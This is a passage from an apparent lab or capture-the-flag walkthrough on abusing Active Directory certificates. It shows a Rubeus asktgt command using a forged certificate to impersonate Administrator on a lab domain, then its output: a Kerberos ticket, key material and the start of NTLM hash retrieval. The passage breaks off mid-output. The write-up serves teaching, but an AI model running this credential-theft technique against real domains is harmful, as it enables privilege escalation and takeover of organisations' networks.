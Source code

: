 You can continue the exploitation by asking for a TGT of the vulnerable user using the certificate generated in the previous command.

To do so, copy and paste the output from the previous command. A detailed explanation of what that command is doing can be seen below:

[*] You can now run Rubeus with the following syntax:

asktgt this will make a request to obtain the TGT

/user the user we want to impersonate for the TGT

/certificate the certificate generated to impersonate the target user

/password the password used for decoding the certificate since it's encrypted

/domain the target Domain

/getcredentials this flag will retrieve the NTLM hash, which will be used in the next step

/dc the Domain Controller that will generate the TGT

```
PS C:\Users\hr\Desktop> .\Rubeus.exe asktgt /user:Administrator /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEH[snip] /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Administrator
[*] Building AS-REQ (w/ PKINIT preauth) for: 'AOC.local\Administrator'
[*] Using domain controller: fe80::8847:dfd7:4897:54ac%5:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF6jCCBeagAwIBBaEDAgEWooIFAzCCBP9hggT7MIIE96ADAgEFoQsbCUFPQy5MT0NBTKIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJQU9DLmxvY2Fso4IEwTCCBL2gAwIBEqEDAgECooIErwSCBKu7ZNuUhyXip5u3
      Izrge1i3/HA62uPhIdKy/O6GgKDn/6GMCYPUe3x+flZ2aEjNPcd7MBvVJXBWJQbA493xkJ9W3thjas5T
      qa+ZTom1OOjfmWsOowuuJQhW+PkbyG5a5K35wzsF4RAV2/atYyTCXukU3XFanSafnVORwqCCLWgDdbUq
      y1oJCw1TBHkNteLdzRkJ4MA6TEYpL5fu4WCDlK6YvvRWvSi29n1lDVW+qHESetdq7Mk8aZ4O2tR4Rq5Q
      zmFQg6cqRT+3FNsXhMSTshfsOYSefBOYaoJE9XQfaxB4vgQ41DE10aXTu2FMS7CdvdtObFis9XjtaRU1
      [snip]

  ServiceName              :  krbtgt/AOC.local
  ServiceRealm             :  AOC.LOCAL
  UserName                 :  Administrator
  UserRealm                :  AOC.LOCAL
  StartTime                :  10/24/2023 9:31:12 AM
  EndTime                  :  10/24/2023 7:31:12 PM
  RenewTill                :  10/31/2023 9:31:12 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  s8DRdxfZCS/1B8/y7VTB7g==
  ASREP (key)              :  A3DAC31C254776E288FDFAD5314D7231

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
```